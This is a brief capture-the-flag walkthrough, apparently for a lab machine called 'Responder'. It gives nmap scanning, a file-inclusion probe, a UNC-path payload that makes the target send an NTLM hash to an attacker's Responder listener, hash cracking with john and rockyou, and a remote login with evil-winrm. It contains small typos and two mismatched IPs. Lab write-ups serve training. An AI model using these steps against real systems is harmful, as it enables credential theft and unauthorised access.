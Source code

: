 ## Responder Analysis
# Initialize a full port scan without ping , default script, default version and save output to result.
1. nmap -sC -sV -p- --open -Pn 10.129.56.241 oN result  
# Nmap results 
1. port 80 (HTTP is running) but cannot visit the website. port 5985, port 7680 (pandu, a file transfer service) also running. 
2. Add ` 10.129.56.241  unika.htb` to `/ect/hosts`
3. Now visiting the site and clicking around,  we find that possible file inclusion vulnerabiltiy `page=` 
4. By inserting `page=../../../../etc/passwd` we figure out that the server is hosted from a windows system. 
5.  Based on the nmap scan we know that this is a windows box. 
6.  `sudo responder -I tun0` to prepare to catch NTLM challenge/responder
7. Try to get the NTLMV1 hash by fasly connecting to SMB. add page=//myIP/randomfile. Save the hash to hash.txt
8. `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
9. connect to windows using `evil-winrm -i 10.129.136.91 -u  -p `
